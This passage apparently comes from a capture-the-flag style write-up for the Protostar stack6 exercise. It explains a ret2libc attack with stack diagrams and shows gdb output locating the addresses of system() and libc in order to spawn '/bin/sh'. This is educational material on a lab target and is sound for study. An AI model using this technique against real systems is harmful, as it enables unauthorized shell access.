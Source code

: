``` shell
|      .....       |  <--------- Higher address
|------------------|
|  "/bin/sh" addr  |  
|------------------|
|  Return Address  | 
|------------------|
|      .....       |  <--------- Lower address
|------------------|
```

You might think how does this help us to solve the problem right? This will help us to have a better visualization of the stack frame, and we will use this to **simulate the stack frame** when a call to **system()** is made.   

To be specific, we can redirect program execution to `system()`, which means the **ret** instruction acts as an ***indirect call*** to **system()**. And we will set up the stack just like in the scenario below, placing the return address of the call to **system** and the argument ***"/bin/sh"*** for it! 

Stack representation for our solution:

``` shell
|      .....       |  <--------- Higher address
|------------------|
|  "/bin/sh" addr  | 
|------------------|
| Fake return addr |  
|------------------|
|  system() addr   |  <--------- ret here!
|------------------|
|     Padding      | 
|------------------|
|      .....       |  <--------- Lower address
```

Now, I will find the address of **system**:

``` shell
user@protostar:~$ gdb /opt/protostar/bin/stack6
(gdb) break *getpath
Breakpoint 1 at 0x8048484: file stack6/stack6.c, line 7.
(gdb) r
...
(gdb) p system          
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
```

For the string **"/bin/sh**:

``` shell
(gdb) info proc map
process 2272
cmdline = '/opt/protostar/bin/stack6'
cwd = '/home/user'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
        0xb7e96000 0xb7e97000     0x1000          0
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0
        0xb7fe0000 0xb7fe2000     0x2000          0
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
```